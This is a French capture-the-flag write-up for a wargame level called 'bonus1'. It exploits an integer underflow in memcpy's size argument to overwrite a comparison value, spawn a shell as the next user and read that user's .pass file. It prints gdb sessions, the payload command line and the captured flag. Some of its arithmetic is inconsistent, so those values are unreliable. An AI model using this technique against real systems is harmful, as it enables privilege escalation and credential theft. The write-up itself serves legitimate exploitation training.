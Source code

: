 #  Shell Code Exploitation

En décompilant l'exécutable, on remarque que le programme doit passer 2 conditions qui lui permettront de lancer un `shell` avec les droits de bonus2.

 1. Notre premier argument doit-être inférieur à 10.
 2. Notre premier argument doit-être égal à  `0x574f4c46`  soit  `1464814662`en base 10.
```C
arg1 = atoi(argv[1]);
if (arg1 < 10) {
	memcpy(buffer, argv[2], (len(argv[1]) * 4));
	if (argv[1] == 0x574f4c46)
		execl("/bin/sh");
}
```
Il y a une contradiction entre ces deux conditions. Cela nous semble impossible d'arriver jusqu'au `bin/sh`. Visiblement la seule chose qui nous permettent de réaliser un exploit est le `memcpy`.

Voici le prototype de la fonction `memcpy`:
```
void  *memcpy(void  *dest,  const  void  * src,  size_t n)
```
On voit que le troisième argument de `memcpy` est un `size_t`. Le fait que cela soit un size_t va nous être très utile, puisque que c'est `non signé`.

On peut donc faire un `underflow` et faire copier un nombre d'octets assez grand à `memcpy` pour écraser notre valeur de comparaison. 
Voyons tout ça dans `gdb`.

```
> gdb ./bonus1
[...]
> (gdb) disass main 
[...]
	0x08048470 <+76>:	mov    %eax,(%esp)
	0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
	0x08048478 <+84>:	cmpl   $0x574f4c46,0x3c(%esp)
[...]
```
On voit un call a `memcpy`. On va donc `break` juste après, sur la comparaison et lancer le programme avec différentes valeurs.
```
> (gdb) break *0x08048478
[...]
> (gdb) r 8 A
[...]
> (gdb) x/16wx $esp
0xbffff6b0:	0xbffff6c4	0xbffff8e6	0x00000020	0x080482fd
0xbffff6c0:	0xb7fd13e4	0x48530041	0x3d4c4c45	0x6e69622f
0xbffff6d0:	0x7361622f	0x45540068	0x783d4d52	0x6d726574
0xbffff6e0:	0x3635322d	0x00000000	0x080484b9	0x00000008
> (gdb) x $esp
0xbffff6b0:	0xbffff6c4
> (gdb) x $esp+0x3c
0xbffff6ec:	0x00000008
```
On affiche `esp` juste après l'appel à `memcpy`. Au moment de la comparaison, on peut voir `0x00000020` (32 en base 10). 
Nous avons mis `8` comme premier argument. On a `break` après `memcpy`, donc la multiplication par 4 s'est effectuée. `8 * 4 = 32`. 
`0x00000020` correspond donc bien à notre premier argument saisis après la multiplication par 4.
Lorsqu'on affiche `esp`, on obtient l'adresse de notre début de `buffer` : `0xbffff6c4`.
Lorsqu'on affiche `esp+0x3c`, donc ce qui correspond a notre comparaison,  on obtient `0xbffff6ec` : `0x00000008`. Nous avons donc ici notre adresse de comparaison : `0xbffff6ec` et notre premier argument `0x00000008` (8 en base10).

Nous voulons maintenant savoir quelle valeur nous devons mettre afin que notre programme exécute bien un `shell`. 
Nous avons notre `adresse de cmp` ainsi que notre adresse de `debut de buffer`.
Nous allons donc faire 
```
[Adresse de cmp] - [adresse de début buffer]
0xbffff6ec - 0xbffff6c4 = 0x28 = 40
```
On peut vérifier cela avec gdb.
```
(gdb)x/20wx $esp
[...]
0xbffff6b0:	0xbffff6c4	0xbffff8e6	0x00000008	0x080482fd
0xbffff6c0:	0xb7fd13e4	0x48530041	0x3d4c4c45	0x080484d1
								 ^
								 Début du buffer (0xbffff6c4)
0xbffff6d0:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
0xbffff6e0:	0xb7fed280	0x00000000	0x080484b9	0x00000002
											    ^
											    Fin du buffer (0xbffff6ec)
```

Sauf que notre dernière adresse n'est pas écrasée. On doit donc ajouter 4 octets pour avoir écraser l'adresse de comparaison. 

On divise donc 44 / 4 car il sera multiplié par 4 dans le memcpy.
On obtient donc 11. Il va falloir écrire 11 fois la valeur de comparaison (`0x574f4c46`) .
Cette valeur de comparaison en little indian est donc `\x46\x4c\x4f\x57`.

On peut maintenant tester avec la valeur `int min` +  44.
```
-2147483647 + 44 = -2147483603
```

```
> (gdb) break *0x08048473
[...]
> (gdb) r -2147483607 `python -c 'print "\x46\x4c\x4f\x57"*11'`
> (gdb) continue
> [...]
process 3514 is executing new program: /bin/dash
```
Notre programme se lance bien !
```
./bonus1 -2147483607 `python -c 'print "\x46\x4c\x4f\x57"*164'`
[...]
$whoami
[...]
bonus2
$ cat /home/user/bonus2/.pass
[...]
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```